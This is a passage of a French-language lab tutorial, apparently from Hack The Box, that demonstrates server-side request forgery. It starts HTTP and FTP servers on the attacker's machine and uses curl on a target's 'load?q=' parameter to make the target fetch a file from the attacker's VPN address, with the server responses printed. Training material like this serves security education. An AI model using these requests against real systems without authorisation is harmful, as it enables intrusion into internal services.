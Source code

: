  Démarrer le serveur HTTP Python

```
dsgsec@htb[/htb]$ python3 -m http.server 9090

```

1.  Dans le répertoire où se trouve index.html, démarrez un serveur FTP via la commande suivante

#### Démarrer le serveur FTP

  Démarrer le serveur FTP

```
dsgsec@htb[/htb]$ sudo pip3 install twisted
dsgsec@htb[/htb]$ sudo python3 -m twisted ftp -p 21 -r .

```

1.  Récupérez index.html via l'application cible à l'aide du `ftp`schéma, comme suit

#### Récupération d'un fichier distant via l'application cible - Schéma FTP

  Récupération d'un fichier distant via l'application cible - Schéma FTP

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:21:09 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>

```

1.  Récupérez index.html via l'application cible à l'aide du `http`schéma, comme suit

#### Récupération d'un fichier distant via l'application cible - Schéma HTTP

  Récupération d'un fichier distant via l'application cible - Schéma HTTP

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:26:18 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>

```
